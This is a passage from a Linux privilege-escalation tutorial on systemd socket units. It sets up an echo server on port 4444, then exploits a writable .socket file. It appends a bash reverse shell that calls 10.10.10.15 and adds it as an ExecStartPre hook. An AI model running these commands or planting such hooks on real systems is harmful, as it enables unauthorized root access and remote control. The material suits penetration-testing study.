 The _echo.socket_ will automatically call _echo@.service_ (which runs echo_write.py) each time someone tries to push a string to the server through port 4444.

Now check that the port listening:

```shell
user@pwn:~$ ss -tnlp | grep 4444
LISTEN   0        4096                   *:4444                *:*       
```

To do that, on the sending computer, you can use a program like [_socat_](https://www.linux.com/news/socat-general-bidirectional-pipe-handler):

```shell
$ socat - TCP:127.0.0.1:4444
hello
HELLO
$
```

# PrivilegeEscalation via Writable .socket files

Let's add write permissions for others:

```shell
sudo chmod o+w echo.socket
```

If we find a **writable** `.socket` file we can **add** at the beginning of the `[Socket]` section something like `ExecStartPre=/home/user/backdoor` and the backdoor will be executed before the socket is created. Therefore, we will **probably need to wait until the machine is rebooted** if we can't reboot the machine with our current user.

Add a reverse shell to the script or any other malicious command:

```shell
echo -e ''#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.10.15/1234 0>&1' >> /home/user/script.sh
```

Edit the socket file and add a script that it will be executed before the listening sockets/FIFOs are created and bound, we can do this with the `ExecStartPre=` option:

```shell
[Unit] 
Description = Echo server 

[Socket] 
ExecStartPre=/home/user/script.sh
ListenStream = 4444 
Accept = yes 

[Install] 
WantedBy = sockets.target
```

Let's restart the socket:

```shell
sudo systemctl restart echo.socket
```
